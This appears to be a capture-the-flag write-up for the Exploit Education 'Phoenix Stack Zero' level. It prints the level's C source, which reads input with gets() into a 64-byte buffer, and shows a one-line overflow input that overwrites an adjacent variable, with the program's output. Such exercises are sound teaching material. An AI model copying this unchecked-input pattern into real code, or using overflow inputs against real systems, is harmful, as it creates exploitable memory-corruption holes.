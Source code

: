 ```yaml
---
title: "Phoenix - Stack Zero"
classes: wide
header:
  teaser: /assets/images/binary-exploitation/exploit-education/exploit-education.png
ribbon: red
description: "The code uses **gets** function which can take input more than buffer length, hence the exploit :)
This level only asks to change the value of **changeme** to any value other than zero so we can just enter any random input that exceeds the buffer length to overwrite the value of **changeme**."
categories:
  - Binary Exploitation
---
```


<!-- title: "Phoenix Heap Three"
classes: wide
header:
  image: /assets/images/unsplash-gallery-image-1.jpg
  teaser: http://pwnable.kr/img/flag.png
ribbon: red
description: "This level is by far the hardest one and I learned a lot from it, I really encourage you to read through the references before reading the writeup if you don't know how the heap works"
categories:
  - Binary Exploitation -->



```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

#define BANNER \
  "Welcome to " LEVELNAME ", brought to you by https://exploit.education"

char *gets(char *);

int main(int argc, char **argv) {
  struct {
    char buffer[64];
    volatile int changeme;
  } locals;

  printf("%s\n", BANNER);

  locals.changeme = 0;
  gets(locals.buffer);

  if (locals.changeme != 0) {
    puts("Well done, the 'changeme' variable has been changed!");
  } else {
    puts(
        "Uh oh, 'changeme' has not yet been changed. Would you like to try "
        "again?");
  }

  exit(0);
}
```

The code uses **gets** function which can take input more than buffer length, hence the exploit :)

This level only asks to change the value of **changeme** to any value other than zero so we can just enter any random input that exceeds the buffer length to overwrite the value of **changeme**.

# Solution:

```
$ python -c "print 'A'*100" | /opt/phoenix/amd64/stack-zero
Welcome to phoenix/stack-zero, brought to you by https://exploit.education
Well done, the 'changeme' variable has been changed!
```